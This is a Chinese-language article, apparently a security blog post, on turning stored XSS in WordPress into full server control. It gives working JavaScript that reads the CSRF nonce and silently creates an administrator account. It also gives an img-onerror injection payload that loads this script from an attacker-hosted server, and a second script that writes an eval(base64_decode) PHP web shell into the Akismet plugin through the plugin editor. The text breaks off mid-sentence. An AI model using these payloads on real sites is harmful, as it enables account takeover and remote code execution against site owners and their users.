 （从xss到getshell） xss的深层次利用与探讨
=========================================

今天我们的网站上公布了大量的wp的xss，那么这篇文章就是深入探讨如何深入利用xss。

如果师傅们有什么新的思路或者姿势。可以通过邮箱联系我们进行讨论与交流

联系邮箱：ian\@lcx.cc

通过js文件添加wp系统管理员
--------------------------

### 1、创建管理账号

举个例子，攻击者可以在其Web服务器上托管JavaScript文件，例如wpaddadmin
\[.\]
js（在链接中描述）。此JavaScript代码将添加一个WordPress管理员帐户，其用户名为"
attacker"，密码为" attacker"。

    // Send a GET request to the URL '/wordpress/wp-admin/user-new.php', and extract the current 'nonce' value  
    var ajaxRequest = new XMLHttpRequest();  
    var requestURL = "/wordpress/wp-admin/user-new.php";  
    var nonceRegex = /ser" value="([^"]*?)"/g;  
    ajaxRequest.open("GET", requestURL, false);  
    ajaxRequest.send();  
    var nonceMatch = nonceRegex.exec(ajaxRequest.responseText);  
    var nonce = nonceMatch[1];  

    // Construct a POST query, using the previously extracted 'nonce' value, and create a new user with an arbitrary username / password, as an Administrator  
    var params = "action=createuser&_wpnonce_create-user="+nonce+"&user_login=attacker&email=attacker@site.com&pass1=attacker&pass2=attacker&role=administrator";  
    ajaxRequest = new XMLHttpRequest();  
    ajaxRequest.open("POST", requestURL, true);  
    ajaxRequest.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");  
    ajaxRequest.send(params);

然后，攻击者可以使用以下PoC插入JavaScript。

    “"><img src=1 onerror="javascript:(function () { var url = 'http://aaa.bbb.ccc.ddd/ wpaddadmin.js';if (typeof beef == 'undefined') { var bf = document.createElement('script'); bf.type = 'text/javascript'; bf.src = url; document.body.appendChild(bf);}})();">”

### 图1.插入XSS代码以添加管理员帐户

![](resource/(从xss到getshell)xss的深层次利用与探讨/media/rId24.png)

具有高权限的受害者查看此帖子后，将创建管理员帐户"攻击者"。

### 图2. XSS代码被执行

![](resource/(从xss到getshell)xss的深层次利用与探讨/media/rId26.png)

### 图3. XSS代码创建的具有管理员权限的"攻击者"帐户

![](resource/(从xss到getshell)xss的深层次利用与探讨/media/rId28.png)

然后，攻击者可以将现有的php文件修改为Webshel​​l，并使用该Webshel​​l来控制Web服务器。

图4.使用攻击者的帐户添加一个Web Shell

![](resource/(从xss到getshell)xss的深层次利用与探讨/media/rId29.png)

图5.控制Web服务器

![](resource/(从xss到getshell)xss的深层次利用与探讨/media/rId30.png)

### 2、恶意命令执行

    // Send a GET request to the URL '/wp-admin/plugin-editor.php?akisment/index.php', and extract the current 'nonce' value
    var ajaxRequest = new XMLHttpRequest();
    var requestURL = "/wp-admin/plugin-editor.php?file=akismet/index.php"
    var nonceRegex = /ce" value="([^"]*?)"/g;
    ajaxRequest.open("GET", requestURL, false);
    ajaxRequest.send();
    var nonceMatch = nonceRegex.exec(ajaxRequest.responseText);
    var nonce = nonceMatch[1];

    // Construct a POST query, using the previously extracted 'nonce' value, and update the content of the file 'akismet/index.php' with our tiny web shell
    var params = "_wpnonce="+nonce+"&newcontent=<?php eval(base64_decode($_REQUEST['x']));&action=update&file=akismet/index.php"
    ajaxRequest = new XMLHttpRequest();
    ajaxRequest.open("POST", requestURL, true);
    ajaxRequest.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
    ajaxRequest.send(params);

一旦此XSS被管理用户触发，我们应该能够通过向脚本

<http://0-sec.org/wp-content/plugins/akismet/index.php>

发送GET / POST请求来执行任意PHP代码，其中参数" x"等于我们的PHP代码的"
base6
